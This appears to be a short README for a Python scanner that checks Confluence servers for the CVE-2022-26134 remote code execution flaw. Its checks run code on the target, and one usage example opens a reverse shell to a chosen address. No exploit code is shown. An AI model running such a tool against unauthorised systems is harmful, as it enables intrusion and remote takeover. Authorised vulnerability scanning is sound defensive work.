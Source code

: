 ## Scan for ConfluenceRCE CVE-2022-26134
Just a quick tool with an oversized banner, to scan if a target is vulnerable to CVE-2022-26134.
* Tested on win/nix, python 2.7 - 3.X
* Dependencies: argparse, requests
* Checks are invasive- meaning RCE will be performed (but on a non-destructive way)

* Example usage-1: python confluenceRCE.py -t 127.0.0.1
* Example usage-2: python confluenceRCE.py -t 127.0.0.1:8090 (default port, if not running on 443)
* Example usage-3: python confluenceRCE.py -t 127.0.0.1 -p 8090 -c 15 (-c is timeout value in seconds)
* Example usage-4: python confluenceRCE.py -t 127.0.0.1 -s 192.168.0.1 (reverse shell, ports must be open, port choosen when spawning)
* Thats all.
